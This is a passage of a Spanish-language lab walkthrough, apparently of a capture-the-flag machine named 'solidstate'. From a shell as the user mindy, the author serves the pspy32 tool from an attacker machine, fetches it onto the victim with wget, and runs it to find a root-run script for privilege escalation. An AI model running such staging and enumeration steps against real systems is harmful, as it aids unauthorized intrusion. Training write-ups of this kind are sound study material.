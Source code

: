 Ya estamos en una `TTY` completamente `interactiva`

```
${debian_chroot:+($debian_chroot)}mindy@solidstate:~$ whoami
mindy
```

`Imprimimos` el `PATH` en nuestra máquina

```
# echo $PATH            
/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/local/games:/usr/games:/snap/bin:/home/mindy/.local/bin
```

`Exportamos` el `PATH` a la máquina víctima 

```
${debian_chroot:+($debian_chroot)}mindy@solidstate:/home$ export PATH=$PATH:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/local/games:/usr/games:/snap/bin:/home/mindy/.local/bin
```

## Privilege Escalation

Nos `montamos` un `servidor http` con `python` en nuestra máquina para transferir el `pspy32` a la máquina víctima [https://github.com/DominicBreuker/pspy/releases/tag/v1.2.1](https://github.com/DominicBreuker/pspy/releases/tag/v1.2.1). Vamos a `analizar` los `procesos` del `sistema`

```
# python -m http.server 80
```

Nos `descargamos` el `pspy32`

```
${debian_chroot:+($debian_chroot)}mindy@solidstate:~$ wget http://10.10.16.35/pspy32
--2024-08-02 13:17:13--  http://10.10.16.35/pspy32
Connecting to 10.10.16.35:80... connected.
HTTP request sent, awaiting response... 200 OK
Length: 3104768 (3.0M) [application/octet-stream]
Saving to: ‘pspy32’

pspy64                                        100%[================================================================================================>]   2.96M   865KB/s    in 3.6s    

2024-08-02 13:17:17 (834 KB/s) - ‘pspy32’ saved [3104768/3104768]
```

`Ejecutamos pspy` y encontramos que el usuario `root` está `ejecutando` un `script` que se encuentra en `/opt`

```
${debian_chroot:+($debian_chroot)}mindy@solidstate:~$ ./pspy32
pspy - version: v1.2.1 - Commit SHA: f9e6a1590a4312b9faa093d8dc84e19567977a6d


     ██▓███    ██████  ██▓███ ▓██   ██▓
    ▓██░  ██▒▒██    ▒ ▓██░  ██▒▒██  ██▒
    ▓██░ ██▓▒░ ▓██▄   ▓██░ ██▓▒ ▒██ ██░
    ▒██▄█▓▒ ▒  ▒   ██▒▒██▄█▓▒ ▒ ░ ▐██▓░
    ▒██▒ ░  ░▒██████▒▒▒██▒ ░  ░ ░ ██▒▓░
    ▒▓▒░ ░  ░▒ ▒▓▒ ▒ ░▒▓▒░ ░  ░  ██▒▒▒ 
    ░▒ ░     ░ ░▒  ░ ░░▒ ░     ▓██ ░▒░ 
    ░░       ░  ░  ░  ░░       ▒ ▒ ░░  
                   ░           ░ ░     
                               ░ ░     

Config: Printing events (colored=true): processes=true | file-system-events=false ||| Scanning for processes every 100ms and on inotify events ||| Watching directories: [/usr /tmp /etc /home /var /opt] (recursive) | [] (non-recursive)
```